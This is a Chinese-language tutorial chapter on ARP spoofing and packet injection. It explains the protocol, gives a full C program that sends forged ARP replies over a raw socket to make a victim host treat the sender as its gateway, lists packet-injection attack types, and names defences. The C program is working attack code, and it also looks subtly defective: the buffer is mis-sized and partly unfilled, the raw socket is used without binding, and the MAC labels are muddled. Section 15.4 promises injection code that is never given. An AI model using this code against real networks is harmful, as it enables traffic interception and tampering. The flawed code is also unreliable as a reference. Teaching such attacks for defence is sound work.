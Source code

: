 ### 15. **網路安全與攻防實驗**  
這一章節將專注於網路安全的實際攻防技術，特別是如何使用 C 語言模擬 ARP 欺騙與封包注入等攻擊。這些攻擊技術對於理解網路層級的安全漏洞以及如何防範這些漏洞至關重要。以下是這部分的內容概要：

---

#### **15.1 用 C 模擬 ARP 欺騙與封包注入**

ARP 欺騙（ARP Spoofing）是攻擊者通過偽造 ARP (Address Resolution Protocol) 封包來將其 MAC 地址綁定到目標 IP 地址上，從而截獲或篡改網路通信。封包注入則是攻擊者將不合法的封包注入網路中，達到拒絕服務、數據竊取或其他攻擊目的。

本節將介紹如何使用 C 語言來模擬這些攻擊，並詳細講解如何利用原始套接字進行 ARP 欺騙及封包注入。

---

#### **15.2 ARP 欺騙攻擊的基本原理**

1. **ARP 協定回顧：**  
   ARP 是一個用於將 IP 地址映射到 MAC 地址的協定。當一台設備知道目標的 IP 地址，但不知道目標的 MAC 地址時，它會廣播一個 ARP 請求，請求對方回應其 MAC 地址。接著，目標設備會返回一個 ARP 回應，告訴源設備其 MAC 地址。

2. **ARP 欺騙的運作：**  
   攻擊者可以偽造 ARP 回應，將自己的 MAC 地址綁定到目標設備的 IP 地址上，從而使流向該 IP 地址的數據包被發送到攻擊者的設備。攻擊者可以截獲或篡改數據包，甚至將流量引導到另一台設備。

---

#### **15.3 使用 C 實現 ARP 欺騙**

1. **ARP 欺騙程式結構：**
   - 首先，我們需要使用原始套接字創建 ARP 請求和回應。
   - 偽造 ARP 回應包，並發送到目標設備。

2. **範例程式碼：**

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <arpa/inet.h>
#include <netinet/ip.h>
#include <netinet/if_ether.h>
#include <sys/socket.h>
#include <net/ethernet.h>
#include <sys/ioctl.h>
#include <unistd.h>
#include <net/if.h>

// 假設你已經擁有目標的 IP 和 MAC 地址
unsigned char target_mac[6] = {0x00, 0x11, 0x22, 0x33, 0x44, 0x55};
unsigned char gateway_mac[6] = {0x66, 0x77, 0x88, 0x99, 0xaa, 0xbb};

void send_arp_reply(int sock, unsigned char *target_ip, unsigned char *sender_ip) {
    struct ethhdr eth;
    struct arp_hdr {
        unsigned short hw_type;
        unsigned short protocol_type;
        unsigned char hw_len;
        unsigned char protocol_len;
        unsigned short op;
        unsigned char sender_mac[6];
        unsigned char sender_ip[4];
        unsigned char target_mac[6];
        unsigned char target_ip[4];
    } arp;

    // 填充 Ethernet Header
    memset(&eth, 0, sizeof(eth));
    memcpy(eth.h_dest, target_mac, 6);  // 目標 MAC 地址
    memcpy(eth.h_source, gateway_mac, 6);  // 攻擊者 MAC 地址
    eth.h_proto = htons(ETH_P_ARP);

    // 填充 ARP Header
    arp.hw_type = htons(1);  // Ethernet
    arp.protocol_type = htons(0x0800);  // IPv4
    arp.hw_len = 6;
    arp.protocol_len = 4;
    arp.op = htons(2);  // ARP 回應

    memcpy(arp.sender_mac, gateway_mac, 6);  // 發送者 MAC 地址（即攻擊者的 MAC）
    memcpy(arp.sender_ip, sender_ip, 4);  // 發送者 IP 地址（即網關 IP）
    memcpy(arp.target_mac, target_mac, 6);  // 目標 MAC 地址
    memcpy(arp.target_ip, target_ip, 4);  // 目標 IP 地址（即受害者的 IP）

    // 構建原始套接字
    unsigned char packet[42 + sizeof(arp)];
    memcpy(packet, &eth, 14);  // 複製 Ethernet header
    memcpy(packet + 14, &arp, sizeof(arp));  // 複製 ARP header

    // 發送 ARP 回應包
    if (send(sock, packet, sizeof(packet), 0) < 0) {
        perror("ARP 回應發送失敗");
    }
}

int main() {
    int sock;
    struct ifreq ifr;
    unsigned char target_ip[4] = {192, 168, 1, 10};  // 受害者 IP
    unsigned char sender_ip[4] = {192, 168, 1, 1};  // 網關 IP

    // 創建原始套接字
    if ((sock = socket(AF_PACKET, SOCK_RAW, htons(ETH_P_ARP))) < 0) {
        perror("創建套接字失敗");
        exit(1);
    }

    // 設置網卡接口
    strncpy(ifr.ifr_name, "eth0", IFNAMSIZ);
    ioctl(sock, SIOCGIFINDEX, &ifr);

    // 開始 ARP 欺騙攻擊
    send_arp_reply(sock, target_ip, sender_ip);

    close(sock);
    return 0;
}
```

在此範例中，我們通過創建一個原始套接字，偽造 ARP 回應，並將其發送給目標設備。這樣一來，目標設備會誤以為攻擊者是網關，從而將數據流量發送給攻擊者。

---

#### **15.4 封包注入攻擊**

封包注入攻擊是指將篡改過的封包注入網路，這些封包通常會破壞網路通信，或者讓攻擊者能夠控制目標設備。這類攻擊包括但不限於：  
- **DOS 攻擊**  
- **流量重放攻擊**  
- **無線網路的封包注入**

本節將介紹如何在 C 語言中構建並發送這些篡改過的封包。

---

#### **15.5 防範 ARP 欺騙與封包注入**

了解了攻擊的基本原理後，本節將介紹如何防範 ARP 欺騙與封包注入：
- **靜態 ARP 表：** 設定靜態 ARP 表可以有效避免 ARP 欺騙攻擊。
- **網路監控工具：** 使用 `Scapy` 或 `Wireshark` 等工具可以檢測 ARP 欺騙活動。
- **加密協定：** 使用加密協定（如 HTTPS）可以防止封包被篡改。

---

### **總結**

這一章介紹了如何使用 C 語言實現 ARP 欺騙和封包注入攻擊，並且詳細說明了攻擊的基本原理、實作方法和防範措施。掌握這些攻防技術有助於深入了解網路安全的基本運作原理，並能夠設計有效的防禦機制來保護網路免受這些攻擊的影響。